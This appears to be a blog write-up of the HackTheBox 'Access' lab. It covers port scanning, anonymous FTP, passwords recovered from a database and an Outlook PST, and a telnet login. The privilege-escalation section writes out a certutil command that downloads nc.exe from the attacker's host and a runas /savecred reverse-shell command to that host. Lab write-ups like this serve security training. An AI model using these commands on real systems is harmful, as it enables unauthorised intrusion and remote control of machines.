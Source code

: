 ```yaml
---
title: "HTB Write-up: Access"
date: 2018-12-19
category: [HackTheBox]
tags: [HackTheBox, HTB, windows, runas, certutil, 7z, readpst]
header:
    teaser: "/assets/images/htb/access/access.png"
---
```

Lorem ipsum dolor sit amet, consectetur adipiscing elit, sed do eiusmod tempor incididunt ut labore et dolore magna aliqua. Ut enim ad minim veniam, quis nostrud exercitation ullamco laboris nisi ut aliquip ex ea commodo consequat. Duis aute irure dolor in reprehenderit in voluptate velit esse cillum dolore eu fugiat nulla pariatur. Excepteur sint occaecat cupidatat non proident, sunt in culpa qui officia deserunt mollit anim id est laborum.

![access_info](/assets/images/htb/access/access_info.png)

## User
To begin the enumeration process, a port scan was run against the target using `masscan`. The purpose of this intial scan is to quickly determine which ports are open so that a more focused `nmap` scan can be performed that will target only the open ports discovered by `masscan`.

```
root@kali:~/workspace/hackthebox/Access# masscan -e tun0 -p 1-65535 --rate 2000 10.10.10.98
```

From `masscan`, it was revealed that TCP ports 21 (FTP), 23 (Telnet), and 80 (HTTP) were listening for connections. Using this information, a second scan was run using `nmap` to more thoughoughly examine the services listening on the discovered ports.

```
root@kali:~/workspace/hackthebox/Access# nmap -p 21,80,23 -sC -sV -oA scans/discovered-tcp 10.10.10.98 
```

As expected, the services listening for connections on Access were FTP, Telnet, and HTTP. A screenshot of the result of the `nmap` scan is shown below.

![nmapresults](/assets/images/htb/access/nmapresults.png)

Of notable significance in this result is the "Anonymous FTP login allowed" line. This means that a user may access the FTP server running on Access as an anonymous user (with no password required). The process of accessing the FTP server in this manner is shown in the image below.

![ftp](/assets/images/htb/access/ftp.png)

Two directories were found in the root directory of the FTP server; a `Backups` directory and an `Engineer` directory. Searching through these directories revealed two interesting files; `backup.mdb` in the `Backups` directory and `Access Control.zip` in the `Engineer` directory. The FTP command `get` can be used to transfer the remote files to the local testing host. Depending on the contents being transferred with `get`, it is often advisable to transfer the data in binary mode (as opposed to in ASCII (text) mode). Binary mode transfers data byte-for-byte while ASCII mode will convert line endings from those of the sending system to those of the receiving system. Binary mode can be enabled with the FTP `binary` command. 

Once `backup.mdb` and `Access Control.zip` have been retrieved from the remote FTP server, they can be more thouroughly examined with the Linux `file` command. An example of this is demonstrated below.

```
root@kali:~/workspace/hackthebox/Access# file backup.mdb; file 'Access Control.zip'
backup.mdb: Microsoft Access Database
Access Control.zip: Zip archive data, at least v2.0 to extract
```

As files with the `.mdb` extension are not commonly used in Linux environments, a little searching was required to determine how to work with this Microsoft Access Database file type. The [MDBOpener](https://www.mdbopener.com) website was used to upload the `backup.mdb` Microsoft Access Database base, extract the contents, and export the data in CSV format. After parsing through the various tables present within the backup database, the `auth_user` table was eventually found, the contents of which are shown in the image below.

![authuser_csv](/assets/images/htb/access/authuser_csv.png)

As the content within the `auth_user` table appears to contain username-password combinations, the username-password pairs were used in attempts to access the Telnet server running on TCP port 23 of the target system, but to no avail. Time to look elsewhere.

Moving on to the second file retreived from the FTP server, the `'Access Control.zip'` file can be unziped using the `7z` tool, as shown below.

```
root@kali:~/workspace/hackthebox/Access# 7z x 'Access Control.zip'
```

In this case, the file is password protected. Using the password `access4u@security` password found previously in the `auth_user` table within the Microsoft Access Database successfully unzips the `'Access Control.zip'` file, revealing the `'Access Control.pst'` file. Checking this file out with `file` reveals that the `.pst` file is a Microsoft Outlook email folder:

```
root@kali:~/workspace/hackthebox/Access# file 'Access Control.pst'
Access Control.pst: Microsoft Outlook email folder (>=2003)
```

After a little research, it was found that the `readpst` tool as provided by the `pst-utils` package can be used to read the information within a `.pst` file. If necessary, `pst-utils` can be installed with the `apt-get install pst-utils` command. After using `read-pst` to reclaim the contents within the `'Access Control.pst'` file, the `'Access Control.mbox'` file is returned.

```
root@kali:~/workspace/hackthebox/Access# file 'Access Control.mbox'
Access Control.mbox: HTML document, UTF-8 Unicode text, with very long lines
```

As this contains UTF-8 Unicode text, it can be read using `vi`. A snippet of the contents within the `'Access Control.mbox'` file is shown below.

```
Hi there,

The password for the “security” account has been changed to 4Cc3ssC0ntr0ller.  Please ensure this is passed on to your engineers.

Regards,
John
```

Thanks for the information, John. 

The username `security` with the password `4Cc3ssC0ntr0ller` can be used to log in Access using `telnet`. At this point, the `user.txt` flag can be read. This process is shown in the screenshot below.

![user_txt](/assets/images/htb/access/user_txt.png)

## Root
While running through the usual privelege escalation enumeration commands, something stood out as odd. After running the `net users administrator` command, it was revealed that the "Password Not Required" property has been set for the Administrator user. This means that the Administrator user is allowed passwordless logon to the system.

![net_user](/assets/images/htb/access/net_user.png)

Investigating this property further with the Windows `cmdkey /list` command, it can be seen that the Administrator user has a stored credential on the system.

![cmdkey](/assets/images/htb/access/cmdkey.png)

Continuing enumeration, the `ZKAccess3.5 Security System.lnk` shortcut file found on the Public user's desktop suggests that commands can be run as the Administrator using the `runas` Windows command along with the `/savecred` flag. The `runas` command can be used to run a Windows command as another system user. 

![savecred_link](/assets/images/htb/access/savecred_link.png)

Putting these pieces together, it is clear that system commands can be run as the Administrator user if the `/savecred` flag is included as part of the `runas` command. The fact that the Administrator does not need a password to logon to the system, that the Administrator user has a stored credential on the system, and that `runas` command with the `/savecred` flag is being used on the system suggests a possible privelege elevation scenario.

To leverage this situtation, `nc.exe` can be transferred to the target system and then used to obtain a reverse shell that connects to the attacking machine.

In this case, the `certutil` Windows tool is used on the target system to download `nc.exe`to the target system. After using Python's `SimpleHTTPServer` to host `nc.exe` on the attacking system, the `certutil` command shown below was run on the target system to download the `nc` executable to the system.

```
C:\Users\security\Music>certutil.exe -urlcache -split -f http://10.10.14.2/nc.exe nc.exe
```

A screenshot of this process is included below.

![cert_util](/assets/images/htb/access/cert_util.png)

With `nc.exe` on the target system and a `nc` listener listening on the attacking system, the command shown below was run on the target system to create a reverse shell connection to the attacking system.

```
C:\Users\security\Music>runas /user:Administrator /savecred "nc.exe -e cmd.exe 10.10.14.2 4444"
```

From the connection received on the attacking system, the `root.txt` flag can be read.

![root_txt](/assets/images/htb/access/root_txt.png)
